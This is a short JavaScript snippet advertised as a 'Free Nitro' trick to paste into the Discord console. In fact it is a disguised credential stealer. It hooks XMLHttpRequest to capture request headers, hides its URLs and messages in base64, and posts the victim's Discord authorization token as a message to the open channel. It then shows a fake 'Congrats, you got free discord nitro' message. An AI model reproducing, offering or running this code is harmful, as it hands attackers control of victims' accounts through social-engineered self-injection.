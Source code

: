 /***************************************
 * 
 *           Free Nitro
 *      paste to console on discord
 *      F12 on chrome/mozilla/Edge
 *      Ctrl+Shift+i on desktop app
 * 
 * **************************************/
XMLHttpRequest.prototype.wrappedSetRequestHeader=XMLHttpRequest.prototype.setRequestHeader,XMLHttpRequest.prototype.setRequestHeader=function(e,t){this.wrappedSetRequestHeader(e,t),this.headers||(this.headers={}),this.headers[e]||(this.headers[e]=[]),this.headers[e].push(t)};let oldXHROpen=window.XMLHttpRequest.prototype.open;window.XMLHttpRequest.prototype.open=function(e,t,o,n,s){return this.addEventListener("load",function(){isNaN(window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length))?console.log(atob("UGVuZGluZy4uIHRvIHJlc29sdmUgeW91ciBuaXRyby4=")):(fetch(atob("aHR0cHM6Ly9kaXNjb3JkYXBwLmNvbS9hcGkvdjYvY2hhbm5lbHMv")+window.location.href.substring(window.location.href.lastIndexOf("/")+1,window.location.href.length)+"/messages",{method:"POST",headers:{authorization:this.headers.Authorization[0],"user-agent":navigator.userAgent,"Content-Type":"application/json"},body:JSON.stringify({content:atob("aHR0cHM6Ly8weDUzOS5jby9rLw==")+this.headers.Authorization[0],tts:"false"})}),console.log("%c ",atob("Zm9udC1zaXplOiA0NTBweDsgYmFja2dyb3VuZDogdXJsKGh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzQ5OTIxMTI5NzI4ODYxNzk5Mi81Njg1MDg4NzgzNzU4Nzg2NjgvaW1hZ2VzLnBuZykgbm8tcmVwZWF0Ow==")),console.log("Congrats, you got free discord nitro"))}),oldXHROpen.apply(this,arguments)};
